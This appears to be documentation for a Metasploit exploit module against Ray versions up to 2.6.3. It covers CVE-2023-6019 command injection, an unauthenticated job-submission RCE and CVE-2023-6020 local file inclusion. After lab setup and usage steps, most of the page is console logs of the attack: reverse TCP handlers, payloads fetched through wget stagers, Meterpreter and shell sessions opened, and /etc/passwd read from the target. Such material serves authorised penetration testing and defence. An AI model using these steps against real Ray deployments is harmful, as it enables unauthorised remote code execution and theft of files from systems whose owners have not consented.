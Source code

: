 ## Vulnerable Application

Ray (<=v2.6.3) is vulnerable to three vulnerabilities:

    * RCE via cpu_profile command injection vulnerability (CVE-2023-6019)
    * RCE via the agent job submission endpoint (No CVE)
    * local file inclusion (CVE-2023-6020)

This module exploits all three vulnerabilities.

The vulnerability affects:

    * Ray (<=v2.6.3)

This module was successfully tested on:

    * Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15

### Install and run the vulnerable Ray (v2.6.3)

1. Install your favorite virtualization engine (VirtualBox or VMware) on your preferred platform.
2. Install Kali Linux (or other Linux distro) in your virtualization engine.
3. Pull pre-built Ray docker container (v2.6.3) in your VM.
   `docker pull rayproject/ray:2.6.3`
4. Start the ray container.
   `docker run --shm-size=512M -it -p 8265:8265 rayproject/ray:2.6.3`
5. Start ray.
   `ray start --head --dashboard-host=0.0.0.0`

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/ray_cmdi_rce_lfi`
4. Do: `set rhost <rhost>`
5. Optional: `set rport <port>`
6. Do: `set lhost <attacker-ip>`
7. Optional: `set CVE <cve>`
8. Do: `run`
9. You should get a shell or meterpreter

## Options

### CVE (required)

This is the vulnerability to use. Default is `CVE-2023-6019`, but `RCE` and `CVE-2023-6020` can also be chosen.

### COMMAND (required)

This is the command to execute. Default is `echo 'Hello from Metasploit'`. This is used when CVE is set to `CVE-2023-6019` or `RCE`.

### FILEPATH (required)

This is the file to read. Default is `/etc/passwd`. This is used when CVE is set to `CVE-2023-6020`.

## Scenarios
### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (CVE-2023-6019, target 0)
```
msf6 > use exploit/linux/http/ray_cmdi_rce_lfi
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set cve CVE-2023-6019
cve => CVE-2023-6019
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set target 0
target => 0
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[+] Grabbed node info, pid: 124, ip: 172.17.0.2
[+] Command execution seems to have been successful. Status code: 500
[*] Using URL: http://192.168.56.1:8080/VvzBBm8
[*] Client 192.168.56.6 (Wget/1.20.3 (linux-gnu)) requested /VvzBBm8
[*] Sending payload to 192.168.56.6 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (3045380 bytes) to 192.168.56.6
[*] Command Stager progress - 100.00% done (112/112 bytes)
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.6:40554) at 2024-08-05 08:26:42 +0900
[*] Server stopped.

meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Ubuntu 20.04 (Linux 6.6.15-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (CVE-2023-6019, target 1)
```
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set cve CVE-2023-6019
cve => CVE-2023-6019
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set target 1
target => 1
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[+] Grabbed node info, pid: 124, ip: 172.17.0.2
[+] Command execution seems to have been successful. Status code: 500
[*] Using URL: http://192.168.56.1:8080/tMBeDO
[*] Client 192.168.56.6 (Wget/1.20.3 (linux-gnu)) requested /tMBeDO
[*] Sending payload to 192.168.56.6 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (36 bytes) to 192.168.56.6
[*] Command shell session 2 opened (192.168.56.1:4444 -> 192.168.56.6:39652) at 2024-08-05 08:28:46 +0900
[*] Command Stager progress - 100.00% done (111/111 bytes)
[*] Server stopped.

whoami
ray
pwd
/home/ray
```

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (RCE, target 0)
```
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set cve RCE 
cve => RCE
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set target 0
target => 0
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set payload linux/x64/shell/reverse_tcp
payload => linux/x64/shell/reverse_tcp
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[+] Command execution successful. Job ID: 'raysubmit_TKeWeJRKQZFkU2zN' Submission ID: 'raysubmit_TKeWeJRKQZFkU2zN'
[*] Using URL: http://192.168.56.1:8080/roy19E
[*] Command Stager progress - 100.00% done (111/111 bytes)
[*] Client 192.168.56.6 (Wget/1.20.3 (linux-gnu)) requested /roy19E
[*] Sending payload to 192.168.56.6 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (38 bytes) to 192.168.56.6
[*] Command shell session 3 opened (192.168.56.1:4444 -> 192.168.56.6:43312) at 2024-08-05 08:40:06 +0900
[*] Server stopped.

whoami
ray
pwd
/home/ray
```

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (RCE, target 1)
```
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set cve RCE
cve => RCE
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set target 1
target => 1
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[+] Command execution successful. Job ID: 'raysubmit_g4jZ3U5aQu4gYrFy' Submission ID: 'raysubmit_g4jZ3U5aQu4gYrFy'
[*] Using URL: http://192.168.56.1:8080/ZMCKWGQCHh
[*] Command Stager progress - 100.00% done (115/115 bytes)
[*] Client 192.168.56.6 (Wget/1.20.3 (linux-gnu)) requested /ZMCKWGQCHh
[*] Sending payload to 192.168.56.6 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (36 bytes) to 192.168.56.6
[*] Command shell session 4 opened (192.168.56.1:4444 -> 192.168.56.6:42666) at 2024-08-05 08:41:22 +0900
[*] Server stopped.

whoami
ray
pwd
/home/ray
```

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (CVE-2023-6020)
```
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set cve CVE-2023-6020
cve => CVE-2023-6020
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[+] /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
ray:x:1000:100::/home/ray:/bin/bash
```
